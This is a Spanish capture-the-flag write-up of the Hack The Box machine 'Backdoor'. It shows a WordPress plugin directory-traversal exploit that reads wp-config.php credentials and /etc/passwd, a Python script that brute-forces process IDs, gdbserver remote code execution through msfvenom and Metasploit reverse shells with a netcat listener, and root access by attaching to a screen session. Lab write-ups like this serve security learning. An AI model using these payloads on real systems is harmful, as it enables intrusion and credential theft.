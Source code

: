 #by d4l1


<p align= "center">
<img src=https://7rocky.github.io/images/HTB/Backdoor/Backdoor.webp>
</p>


# PRESENTACIÓN
Muy buenas hoy haremos la máquina Backdoor, una máquina linux easy, en la que encontraremos un Wordpress con un plugin instalado con una vulnerabilidad de directory transversal.

# ENUMERACIÓN

Como siempre haremos los pasos mas simples e importantes.

```
ping -c 1 ip

python3 escanerSO.py ip

```
Conociendo esto ya podemos pasar a hacer un escaner de la red

```
sudo nmap -sCV -T4 --min-rate 5000 ip
```
Con este escaneo encontramos los puertos típicos abiertos "22" ssh - "80" - http y "1337" 

# ENUMERACIÓN WEB

Si inspeccionamor por la web, nos damos cuenta rapidamente que es un blog de Wordpress, podemos utilizar "Wapalanyzer" para ver los plugins y podemos manualmente irnos a la ruta de los plugins. 
```
/wp-content/plugins .
```
Si no vamos ahi encontramos como un pequeño directorio, inspeccionemos.

Dentro del directorio ebook y el fichero readmne.txt nos revela un plugin con la versión 1.1 interesante.

# ENTRADA

Una vez que tenemos la versión podemos buscar exploits en google "ebook-download 1.1 wordpress plugin exploit"

Vemos que hay un exploit con "directory traversal" 

Con un ejemplo de uso :
```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wpconfig.php
```
Deberemos meternos a la URL anteriormente mencionada, y especificar el target "ebookdownloadurl" 

```
backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
Si ponemos dicha ruta, se nos descarga el archibo "wp-config.php" bastante importante.

Vamos a probar a abrir BurpSuite y posteriomente coger la request si lo pasamos por el repeter conseguimos esto.

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
Ahora podemos hacer lo mismo pero con diferentes rutas, por ejemplo /etc/passwd

```
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd HTTP/1.1
```
Aquí nos encontramos con el usuario "user"

# PUERTO 1337

Ahora nos vamos al puerto anteirormente que hemos visto abierto, nos intentaremos conectar con "telnet" o "netcat" 

Algo importante que encontramos es "/proc/{PID}/cmdline" (es un proceso que esta funcionando en el puerto 1337)

Lo que vamos a probar, es desde la misma request del BurpSuite apuntar a dicho proceso 

El archivo nos devuelve un proceso en PID

## FUERZA BRUTA PID 

Ahora utilizaremos python para hacer un pequeño script para que en bucle mande request a la máquina victima, para ver su respuesta mas comprensible, haremos por fuerza bruta de rango 1-1000 y en caso que no nos devuelva nada aumente su rango.
```
import requests
for i in range(1, 1000):
 r = requests.get("http://backdoor.htb/wp-content/plugins/ebookdownload/filedownload.php?ebookdownloadurl=/proc/"+str(i)+"/cmdline")
 out = (r.text.replace('/proc/'+str(i)+'/cmdline','').replace('<script>window.close()
</script>','').replace('\00',' '))
 if len(out)>1:
 print("PID"+str(i)+" : "+out)
```
Esto nos devuelve que hay un gdbserver en dicho puerto
```
sh-c while true;do su user -c "cd /home/user; gdbserver -once 0.0.0.0:1337
/bin/true";done
```
## GBD

Es una herramienta de depuración que te ayuda a hurgar dentro de tu
programas mientras se están ejecutando y también le permite ver qué sucede exactamente cuando su programa
accidentes.

## gdbbaster 

Es un programa que le permite ejecutar GDB en una máquina diferente a la que está ejecutando el
programa que se está depurando.

## RCE on gdbbaster

En google encontramos [este](https://www.exploit-db.com/exploits/50539) exploit para gdbaster para la version 9.2

Tambien podemos usar searchsploit

```
searchsploit gdbserver
```

Primero con msfvenom generamos el exploit

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=4444 PrependFork=true -o rev.bin
```
y abrimos una escucha en dicho puerto
```
sudo nc -lvnp 4444
```
y utilizamos el payload que hemos creado apuntando a la ip victima
```
python3 gdb_rce.py 10.10.11.125:1337 rev.bin
```

En mi caso esto no ha funcionao y e optado por la opción mas simple
```
sudo msfdb run
use exploit/multi/gdb/gdb_server_exec
set payload linux/x64/meterpreter/reverse_tcp
set RHOST 10.10.11.125
set RPORT 1337
set LHOST tun0
set LPORT 1234
run
```
```
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

ya dentro podemos coger el user.txt

# PRIVILEGE ESCALATION

Utilizando "ps aux" podemos ver los procesos, 

Encontramos un proceso que crea una imagen de sesión en bucle, y se inicia como root.

Cuando creamos una sesion se crea un directorio en "/var/run/screen" con (S-username) 

En caso de querer conectarnos a una sesion: 
```
screen -x user/session_name
```
Probamos a conectarnos a la sesion de root
Antes que nada para que nos lleve a nueva sesión debemos upgradear el tty
```
export TERM=xterm
screen -x root/root
```
Estamos dentro!!!

